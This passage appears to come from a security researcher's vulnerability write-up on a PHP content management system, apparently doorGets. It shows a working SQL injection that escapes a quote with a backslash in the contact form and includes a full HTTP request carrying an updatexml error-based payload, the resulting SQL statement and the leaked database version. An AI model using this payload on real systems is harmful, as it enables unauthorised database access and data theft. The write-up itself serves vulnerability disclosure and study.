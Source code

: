 Line 167 passes $q into the query function to perform a database query directly.

The value obtained by the Params function will be processed as follows, '”< will be materialized, but \ will not be processed.

![31.png](./img/31.png)

Since we can control multiple parameters in the SQL statement, let the first parameter take \, the value will comment out the " after the statement, so that the second parameter can be injected.

Request the following data:
```
POST /ajax/index.php?uri=contact&action=sendForm&controller=contact HTTP/1.1
Host: 127.0.0.1:8003
Content-Length: 242
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=123455555
Connection: close

contact_inbox_email=todaro@localhost.com&contact_inbox_nom=4\&contact_inbox_sujet=,(select/**/1=(updatexml(1,concat(0x5e24,(select@@version),0x5e24),1))),6,18010101010,1551774101)#&contact_inbox_message=4444&contact_inbox_telephone=5555555555
```
The last SQL statement executed by this program is:
```
INSERT INTO `_dg_inbox` (`uri_module`,`lu`,`email`,`nom`,`sujet`,`message`,`telephone`,`date_creation`) VALUES ("contact","2","todaro@localhost.com","4\",",(select/**/1=(updatexml(1,concat(0x5e24,(select@@version),0x5e24),1))),6,18010101010,1551774101)#","4444","5555555555","1551777905");
```
The current database version obtained by SQL injection is 5.5.53:

![32.png](./img/32.png)


**[9]**

In the getResponse function of \doorgets\app\views\ajax\commentView.php:

